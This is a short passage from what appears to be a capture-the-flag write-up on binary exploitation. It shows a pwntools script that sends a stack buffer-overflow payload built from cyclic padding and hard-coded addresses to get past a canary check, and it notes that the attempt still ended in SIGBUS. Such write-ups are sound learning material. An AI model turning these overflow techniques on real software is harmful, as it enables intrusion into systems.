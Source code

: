 ```python
    io.sendlineafter(b'Username:', b'devolper')
    payload = cyclic(44)
    payload += flat([
            0x400b0c,       # preserve `rip` to bypass canary check
            p32(0x1) * 5,   # random val for fuzz
            0x4aa330,       # preserve some value
            p32(0x2) * 1,   # random val for fuzz
            0x4721c8,       # preserve some value
            p32(0x3) * 2,   # random val for fuzz
            0x400b0c,       # preserve some value
    ]) 
    payload +=  cyclic(300)
    sleep(0.2)
    io.sendline(payload)
```

however we still got SIGBUS

<figure><img src="../../.gitbook/assets/image (62).png" alt="" width="305"><figcaption></figcaption></figure>
